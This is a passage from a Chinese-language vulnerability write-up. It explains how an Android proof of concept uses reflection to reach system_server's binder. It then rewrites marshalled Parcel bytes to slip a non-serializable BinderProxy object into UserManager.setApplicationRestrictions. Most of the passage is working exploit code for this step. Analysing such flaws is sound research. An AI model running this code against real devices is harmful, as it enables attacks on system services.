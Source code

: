 ```
                    clStub.getDeclaredField("TRANSACTION_setApplicationRestrictions");
            fTRANSACTION_setApplicationRestrictions.setAccessible(true);
            TRANSACTION_setApplicationRestrictions =
                    fTRANSACTION_setApplicationRestrictions.getInt(null);

            UserManager um = (UserManager) ctx.getSystemService(Context.USER_SERVICE);
            Field fService = UserManager.class.getDeclaredField("mService");
            fService.setAccessible(true);
            Object proxy = fService.get(um);

            Class[] stSubclasses = clStub.getDeclaredClasses();
            System.out.println(stSubclasses.length+" inner classes found");
            clProxy = null;
            for (Class c: stSubclasses) {
                //it's android.os.IUserManager.Stub.Proxy
                System.out.println("inner class: "+c.getCanonicalName());
                if (c.getCanonicalName().equals("android.os.IUserManager.Stub.Proxy")) {
                    clProxy = c;
                }
            }

            Field fRemote = clProxy.getDeclaredField("mRemote");
            fRemote.setAccessible(true);
            mRemote = (IBinder) fRemote.get(proxy);//获得跨进程调用system_server的IBinder接口

            UserHandle me = android.os.Process.myUserHandle();
            setApplicationRestrictions(ctx.getPackageName(), b, me.hashCode());

```

第三步，向`system_server`传入不可序列化的Bundle参数

接下来，调用`setApplicationRestrictions`这个函数，并传入了之前打包`evilproxy`的Bundle数据作为参数。将该函数与Android源码中的`setApplicationRestrication`函数[6]对比，主要的区别在于将传入的Bundle数据进行了修改，将之前可序列化的`AAdroid.os.BinderProxy`对象修改为了不可序列化的`Android.os.BinderProxy`对象，这样就将不可序列化的Bundles数据，通过Binder跨进程调用，传入`system_server的Android.os.UserManager.setApplicationRestrictions`方法。

```
public void setApplicationRestrictions(java.lang.String packageName, android.os.Bundle restrictions, int
            userHandle) throws android.os.RemoteException
    {
        android.os.Parcel _data = android.os.Parcel.obtain();
        android.os.Parcel _reply = android.os.Parcel.obtain();
        try {
            _data.writeInterfaceToken(DESCRIPTOR);
            _data.writeString(packageName);
            _data.writeInt(1);
            restrictions.writeToParcel(_data, 0);
            _data.writeInt(userHandle);

            //修改AAdroid.os.BinderProxy为Android.os.BinderProxy

            byte[] data = _data.marshall();
            for (int i=0; true; i++) {
                if (data[i] == 'A' && data[i+1] == 'A' && data[i+2] == 'd' && data[i+3] == 'r') {
                    data[i] = 'a';
                    data[i+1] = 'n';
                    break;
                }
            }
            _data.recycle();
            _data = Parcel.obtain();
            _data.unmarshall(data, 0, data.length);
```